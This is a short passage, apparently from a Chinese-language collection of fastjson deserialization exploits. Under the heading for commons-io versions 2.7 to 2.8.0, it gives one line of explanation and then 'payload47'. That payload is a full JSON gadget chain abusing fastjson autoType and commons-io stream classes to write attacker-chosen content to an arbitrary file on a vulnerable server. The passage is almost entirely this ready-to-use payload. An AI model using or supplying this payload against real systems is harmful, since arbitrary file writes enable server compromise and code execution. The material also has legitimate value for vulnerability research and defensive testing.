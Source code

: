 ```plain
```

[![](assets/1706959415-b5df285f27afa0c7a6ae60609dd5f2d6.png)](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/image-20231021202206100.png)

### 5.1.3 commons-io 2.7~2.8.0 版本

和上面大差不差，同样需要自行修改写入内容。

`payload47`：

```plain
{"x":{"@type":"com.alibaba.fastjson.JSONObject","input":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.CharSequenceReader","charSequence":{"@type":"java.lang.String""W01fh4ckeraaaaaa...","start":0,"end":2147483647},"charsetName":"UTF-8","bufferSize":1024},"branch":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.output.WriterOutputStream","writer":{"@type":"org.apache.commons.io.output.FileWriterWithEncoding","file":"2.txt","charsetName":"UTF-8","append":false},"charsetName":"UTF-8","bufferSize":1024,"writeImmediately":true},"trigger":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.XmlStreamReader","inputStream":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.input"},"branch":{"$ref":"$.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"trigger2":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.XmlStreamReader","inputStream":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.input"},"branch":{"$ref":"$.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"trigger3":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.XmlStreamReader","inputStream":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.input"},"branch":{"$ref":"$.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"}}}
```
